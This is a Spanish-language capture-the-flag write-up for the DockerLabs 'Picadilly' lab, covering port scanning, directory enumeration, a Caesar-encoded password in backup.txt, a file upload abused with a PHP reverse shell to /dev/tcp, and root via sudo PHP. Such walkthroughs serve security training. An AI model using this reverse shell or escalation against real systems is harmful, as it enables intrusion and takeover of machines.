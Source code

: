 #MAQUINA #DOCKERLABS #FACIL 
#ABUSO_SUBIDA_ARCHIVOS 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Picadilly** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 12:55 CET
Initiating ARP Ping Scan at 12:55
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 12:55, 0.05s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 12:55
Scanning 172.17.0.2 [65535 ports]
Discovered open port 443/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 12:55, 0.50s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2024-12-04 12:55:43 CET for 0s
Not shown: 65533 closed tcp ports (reset)
PORT    STATE SERVICE REASON
80/tcp  open  http    syn-ack ttl 64
443/tcp open  https   syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.74 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene el puerto **80(HTTP)** y el puerto **443(HTTPS)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p80,443 172.17.0.2                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 12:56 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.000017s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.59
|_http-title: Index of /
|_http-server-header: Apache/2.4.59 (Debian)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 215   2024-05-18 01:19  backup.txt
|_
443/tcp open  ssl/http Apache httpd 2.4.59 ((Debian))
|_ssl-date: TLS randomness does not represent time
|_http-title: Picadilly
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=50a6ca252ff4
| Subject Alternative Name: DNS:50a6ca252ff4
| Not valid before: 2024-05-18T06:29:06
|_Not valid after:  2034-05-16T06:29:06
|_http-server-header: Apache/2.4.59 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: picadilly.lab

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds



```

   ```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-04 12:57 CET
Nmap scan report for pressenter.hl (172.17.0.2)
Host is up (0.0000040s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE
80/tcp  open  http
| http-enum: 
|_  /: Root directory w/ listing on 'apache/2.4.59 (debian)'
443/tcp open  https
| http-enum: 
|_  /uploads/: Potentially interesting directory w/ listing on 'apache/2.4.59 (debian)'
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.60 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

**Conclusiones:** Directorio **uploads**.

## HTTP (80)
Al revisar la web que hay en el puerto 80, vemos con gobuster lo siguiente:

   ```bash

gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,js,txt,png,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/backup.txt           (Status: 200) [Size: 215]
/.html                (Status: 403) [Size: 275]
/.php                 (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================
```
Vemos que hay un backup.txt :
   ```bash

/// The users mateo password is ////


----------- hdvbfuadcb ------------

"To solve this riddle, think of an ancient Roman emperor and his simple method of shifting letters."

////////////////////////////////////

```
Vemos que usa cifrado Cesar (https://www.dcode.fr/cifrado-cesar)-> easycrxazy -> **easycrazy**
Usuario -> **mateo**
## HTTPS (443)
Al revisar la web que hay en el puerto 443, vemos que hay una subida de archivos y luego podemos verlos desde **uploads**. 
# EXPLOTACION

Subimos un php (reverse shell) sin problemas y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**):

   ```bash

<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Con www-data no hay nada, nos pasamos a mateo con las credenciales de antes.

Vemos si el usuario tiene permisos SUDO:
   ```bash
mateo@c222c501d5bc:/$ sudo -l
Matching Defaults entries for mateo on c222c501d5bc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mateo may run the following commands on c222c501d5bc:
    (ALL) NOPASSWD: /usr/bin/php

```

Vemos **php** con permisos SUDO :
   ```bash
mateo@c222c501d5bc:/$ sudo /usr/bin/php -r 'system("/bin/bash");'
root@c222c501d5bc:/# whoami
root
root@c222c501d5bc:/# 
```

**YA ESTAMOS COMO ROOT.**